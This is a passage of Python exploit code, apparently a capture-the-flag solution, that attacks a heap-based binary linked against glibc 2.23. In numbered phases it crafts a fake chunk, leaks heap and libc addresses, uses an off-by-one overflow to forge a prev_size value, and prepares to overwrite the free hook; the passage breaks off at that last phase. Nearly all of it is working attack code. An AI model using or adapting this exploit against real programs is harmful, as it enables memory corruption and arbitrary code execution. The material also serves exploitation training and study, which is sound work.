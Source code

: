 ```python
    sys.exit(0)

### PHASE 1 - CRAFT FAKE CHUNCK ###

master_k = 0x06020A0

fake_chunk_addr = master_k -8
fake_chunk_from_size = p64(0) + p64(fake_chunk_addr) + p64(fake_chunk_addr)

change_key(fake_chunk_from_size)

print " >> fake chunck addr: " + hex(fake_chunk_addr)

### PHASE 2 - HEAP LEAK ###

create(2,24)
create(3,248, val="BBB")
create(4,24)
delete(2)
delete(4)
create(4,24, val="")

heap_leak = "\x20" + print_one(4)[1:8]
first_addr = u64(heap_leak)
print " >> first addr: " + hex(first_addr)

second_addr = first_addr + 32

### PHASE 3 - PREPARE FAKE CHUNCK ###

create(2,24, val="AAAA")

create(7,0, val="") #clear fake_chunk[0]

### PHASE 4 - OFF BY ONE OVERFLOW ###

off = fake_chunk_addr - (second_addr -16)
print " >>> new prev_size: " + hex(-off)
edit(2,"a"*16+p64(-off))

delete(3) #trigger

### PHASE 5 - MALLOC RETURN FAKE_CHUNK + 16 ###

fake_chunk_from_size = p64(0x100) + p64(fake_chunk_addr) + p64(fake_chunk_addr)
change_key(fake_chunk_from_size)

create(3, 248 , val="")

forged = fake_chunk_addr + 16 #now 3 is master_k+8

### PHASE 5 - LIBC LEAK FROM ARENA ###

libc_leak = print_one(3)[:8]
libc_addr = u64(libc_leak) - 0x3c4b0a
print " >> libc addr: " + hex(libc_addr)

ptr_2 = 0x00602068 + (2+0xa)*8
print " >> ptr secret 2: " + hex(ptr_2)

libc = ELF("libc6_2.23-0ubuntu10_amd64.so")

### PHASE 6 - REWRITE POINTER WITH FREE_HOOK ###
```
